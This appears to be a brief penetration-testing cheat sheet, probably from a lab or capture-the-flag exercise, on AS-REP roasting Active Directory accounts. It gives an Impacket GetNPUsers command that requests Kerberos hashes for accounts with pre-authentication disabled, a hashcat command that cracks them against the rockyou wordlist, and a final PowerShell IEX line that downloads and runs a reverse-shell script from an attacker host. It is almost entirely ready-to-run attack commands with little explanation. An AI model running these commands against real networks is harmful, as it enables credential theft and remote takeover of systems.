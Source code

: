 # Requirements:

1. List of valid users.
2. A user accounts should have the pre-authentication option disabled.

## Impacket
```bash
impacket-GetNPUsers DomainName/ -usersfile real_users -dc-ip 10.10.10.161 -request -format hashcat
```

## Cracking with hashcat
```bash
hashcat -m 18200 hash.txt ~/wordlists/rockyou.txt
```

powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.24:8080/mini-reverse.ps1')